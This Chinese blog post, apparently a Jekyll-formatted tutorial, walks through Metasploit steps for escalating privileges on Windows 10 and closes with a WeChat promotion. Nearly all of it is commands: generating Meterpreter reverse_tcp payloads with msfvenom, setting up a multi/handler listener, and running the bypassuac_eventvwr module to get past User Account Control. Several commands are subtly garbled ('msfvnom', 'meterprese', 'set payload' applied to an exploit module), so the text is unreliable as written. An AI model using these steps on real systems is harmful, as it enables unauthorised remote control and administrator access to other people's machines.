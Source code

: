 ```yaml
---
layout: post
category: binghe-code-hack
title: Metasploit Win10提权
tagline: by CurleyG
tag: [hack,binghe-code-hack]
excerpt: Metasploit Win10提权
lock: need
---
```


# Metasploit Win10提权

## 查看目标主机的操作系统

**a) X86操作系统**

```bash
kali# msfvnom –p payload/windows/meterpreter/reverse_tcp 
```

**b) X64操作系统**

```bash
kali# msfvnom –p payload/windows/x64/meterpreter/reverse_tcp
```

## 使用msf建立会话

```bash
msf exploit(handler) > use exploit/multi/handler
msf exploit(handler) > set payload windows/x64/meterpreter/reverse_tcp 
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
```

## 提权

```bash
msf exploit(handler) > search bypassuac //使用bypassuac(绕过用户帐户控制) 
msf exploit(handler) > set payload exploit/windows/local/bypassuac_eventvwr # 在x64使用成功 
msf exploit(handler) > set payload windows/x64/meterprese/reverse_tcp 
msf exploit(handler) > show targets //查看目标，可选项，根据操作系统选择 
msf exploit(handler) > set target 1 #设置目标为x64，0：x86 
msf exploit(handler) > exploit
```

## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)
